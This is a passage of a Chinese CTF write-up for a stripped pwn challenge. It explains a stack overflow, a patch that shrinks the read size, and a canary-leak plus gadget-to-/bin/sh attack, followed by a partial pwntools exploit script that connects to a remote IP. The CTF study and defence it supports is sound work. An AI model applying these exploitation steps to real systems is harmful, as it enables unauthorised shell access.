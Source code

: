 ```python
se(code)

p.interactive()
```

### 杀猪盘

#### 分析

题目去了符号，逆向分析看上去很困难，其实并没有。

漏洞点还是很明显的栈溢出（离 **rbp** **0xa0**，读入 **0x100**）：

#### 防御

俩处 0x100 改为 0xa0 或更小即可。

![image-20220921173735231](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-1bd064e1c89dede6ad5dea55ed09195d531434bb.png)

#### 攻击

虽然开了 canary，但是给的俩次机会，可以第一次读入覆盖掉低字节的 `\x00` ，输出顺带 leak 出 canary，第二次直接劫持控制流。

但是去了符号，应该劫持到哪是必须要考虑的，这里采取的是搜索 `/bin/sh\0` 的交叉应用，找到类似 one\_gadget 的代码：

![image-20220921174005096](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-1296876bb12f4801e255166c3e28af10ff9097f1.png)

但是实际这个是不满足的，需要寻找相关gadget 调一下 rdx 即可：

```c
0x000000000000cb6f : pop r12 ; ret
```

- **Exp**

```python
from pwn import *

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
lg = lambda name,data : p.success(name + ': \033[1;36m 0x%x \033[0m' % data)

elf = ELF('./szp2')
context(arch = elf.arch, os = 'linux',log_level = 'debug')
p = remote("39.105.99.40",26218)

sla("1.从头开始",'2')
sla("4.阿刚",'4')
sla("Y","Y")
for i in range(13):
    sl('')
    sleep(0.1)
sla("2. 十分高兴",'2')
for i in range(10):
    sl('')
    sleep(0.1)
sla("2. 向女友表示网络有风险，投资需谨慎。",'1')
sla("账户名",'u'*8)
sla("你的积蓄",str(150000))
sla("充值金额",str(150000))
```